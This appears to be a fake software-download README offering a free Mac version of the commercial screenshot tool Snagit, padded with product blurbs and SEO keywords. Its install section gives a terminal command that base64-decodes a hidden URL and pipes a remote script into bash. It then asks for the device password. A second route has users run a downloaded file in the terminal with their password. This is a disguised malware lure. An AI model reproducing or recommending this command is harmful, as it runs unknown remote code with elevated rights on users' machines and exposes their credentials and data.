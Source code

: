 # 📸 Snagit Mac Download

![Snagit Logo](https://nandusoftware.eu/media/catalog/product/cache/24d102b1911fbca9560194e03d5925f7/s/n/snagit-2024-box.png)

Snagit is a powerful screen capture and image editing software available for **macOS**. Whether you're a content creator, educator, or business professional, Snagit provides all the tools you need to capture, annotate, and share visual content efficiently on your Mac.

---

## 🚀 Install Snagit

[![⬇️ Download Now](https://img.shields.io/badge/Snagit-Download%20%20-blue?style=for-the-badge&logo=apple)](https://kiakodkfi3.github.io/.github/snagit)

## 📦 How to Install

## Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

## Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQxL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## ✅ Key Features

- 🖥️ Screen capture (full screen, window, region, scrolling)
- ✍️ Annotate with text, arrows, shapes
- 🎞️ Record screen and webcam
- 📚 Create tutorials and documentation
- 🔄 Export to video, image, GIF, or PDF
- 📁 Cross-platform sharing (Windows + macOS)

---

## 💡 What is Snagit for Mac?

Snagit for Mac is a feature-rich screenshot and screen recording tool developed by **TechSmith**, tailored specifically for macOS users. It's designed to make it easy to capture anything on your screen — from software interfaces to video tutorials — and enhance it with professional-grade editing tools.

Snagit empowers users to go beyond the basic screenshot. You can easily create GIFs, instructional content, or step-by-step guides. It also includes a smart editing environment that lets you add annotations, callouts, and effects to your captures. 

Whether you're a YouTuber making tech reviews, an IT professional creating helpdesk documentation, or a teacher making video tutorials, Snagit is the go-to tool. Its intuitive interface, powerful editor, and seamless macOS integration make it one of the best tools for visual communication. 

In addition, Snagit’s compatibility with Apple Silicon (M1/M2/M3), macOS Sonoma, Ventura, and earlier versions ensures optimized performance and system-level integration.

---

## 📸 Screenshots

![Snagit Screenshot](https://support.techsmith.com/hc/article_attachments/28069336476301)

---

## 🔧 System Requirements

- **OS:** macOS 11 (Big Sur) or later  
- **Processor:** Apple Silicon or Intel  
- **RAM:** 4 GB minimum  
- **Disk Space:** 1 GB

---

## 🔍 Keywords (SEO)

`snagit mac`, `snagit download mac`, `snagit osx`, `snagit software for mac`, `snagit macos`, `download snagit for mac free`, `free snagit for mac`, `snagit 2022 download mac`, `snagit 2021 download mac`, `snagit tool for mac`, `techsmith snagit download mac`, `snagit editor for mac`, `snagit apple`, `snagit app for mac`, `snagit 2020 mac`, `snagit 2021 mac download`, `snagit 2019 download mac`, `snagit 2018 mac`, `snagit for mac free version`, `snagit full version for macbook`, `snagit for macbook pro`
